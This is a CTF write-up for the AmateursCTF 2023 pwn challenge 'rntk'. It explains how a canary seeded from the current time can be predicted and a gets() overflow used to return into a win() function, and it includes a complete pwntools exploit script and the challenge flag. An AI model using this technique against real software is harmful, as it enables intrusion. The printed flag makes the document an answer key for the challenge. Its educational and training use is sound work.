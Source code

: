 # AmateursCTF 2023

## rntk

> check out my random number toolkit!
>
>  Author: voxal
>
> [`chal`](chal) [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
For this challenge we only get a compiled binary. Inspecting the binary gives the following.

```c
generate_canary();
while( true ) {
    puts("Please select one of the following actions");
    puts("1) Generate random number");
    puts("2) Try to guess a random number");
    puts("3) Exit");
    local_c = 0;
    __isoc99_scanf(&DAT_00402138,&local_c);
    getchar();
    if (local_c == 3) break;
    if (local_c < 4) {
        if (local_c == 1) {
        uVar1 = rand();
        printf("%d\n",(ulong)uVar1);
        }
        else if (local_c == 2) {
        random_guess();
        }
    }
}
```

The main prints some kind of menu. Random numbers can be generated by pressing `1`, random numbers can be guessed by pressing `2` and the program can be exited by pressing `3`. The user input is not exploitable here, but before all this `generate_canary` is called.

```c
void generate_canary(void)
{
  time_t tVar1;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  global_canary = rand();
  return;
}

This function initializes the random generator with `time(NULL)` and generates a random number. The canary is used then in `random_guess`.

```c
void random_guess(void)
{
  int iVar1;
  long lVar2;
  char local_38 [40];
  int local_10;
  int local_c;
  
  printf("Enter in a number as your guess: ");
  local_c = global_canary;
  gets(local_38);
  lVar2 = strtol(local_38,(char **)0x0,10);
  local_10 = (int)lVar2;
  if (local_c != global_canary) {
    puts("***** Stack Smashing Detected ***** : Canary Value Corrupt!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = rand();
  if (local_10 == iVar1) {
    puts("Congrats you guessed correctly!");
  }
  else {
    puts("Better luck next time");
  }
  return;
}
```

The guess is entered by the user, converetd from string to integer. Then the canary is used to detect stack smashing. This makes sense, since the user input is read via `get` and allows a buffer overflow. To cope with this the canary is checked against the before generated random canary value.

The rest of the function is simple. One more random number is generated and tested against our input value and then a success or fail message is printed. No flag anywhere. But there is one more function which is never called.

```c

void win(void)
{
  char local_58 [72];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("flag file not found");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_58,0x40,local_10);
  puts(local_58);
  return;
}
```

This is a typical ret2win setup. The user overflows the buffer in `random_guess` and overrides the return address to point to `win`. Sadly the random canary is inbetween, so to return to `win` we first need to know the canary value.

Luckily for us this is be manageable with a bit of good timing. Since `time(NULL)` is used for initialization we can try to `guess` the timestamp. This is easily done, since the value is in second granularity. The exploit then is like this:

- first initialize the rng with `time(NULL)` exactly how the application does
- generate a canary candidate by calling `rand()`. This is also what the application does
- let the application generate a random number for us. We generate also another random numer. If both are matching we have found the correct seed and all subsequent random numbers are idendical to the numbers the application generated. Even better, we know the value of the canary

This works since it's known that `rand` will produce deterministic values when the same seed is used.

After knowing the canary the rest is very basic. Overflowing until the canary comes with random values. Writing the canary value. Overflowing the rest until the return address on the stack and then overriding this with the address to the win function.

```python
from ctypes import CDLL
from math import floor
import time
from pwn import *

libc = CDLL('libc.so.6')

elf = context.binary = ELF('chal')

found = False
while not found:
    p = remote("amt.rs", 31175)
    #p = process("chal")
    now = int(floor(time.time()))
    p.sendlineafter(b"3) Exit", b"1")
    p.recvuntil(b"\n")
    server_random = int(p.recvline())
    for i in range(-2000, 2000):
        libc.srand(now+i)
        canary = libc.rand()
        local_random = libc.rand()
        if server_random == local_random:
            print("found ", server_random, local_random)
            found = True
            break
    if not found:
        p.close()

p.sendlineafter(b"3) Exit", b"2")

payload = str(libc.rand()).encode()
payload += (40 - len(payload)) * b'\x00'
payload += p32(0xdeadbeef)
payload += p32(canary)
payload += p64(0xc0febabe)
payload += p64(elf.symbols.win)

#gdb.attach(p)
p.sendlineafter(b"as your guess:", payload)
p.interactive()
```

Flag `amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}`
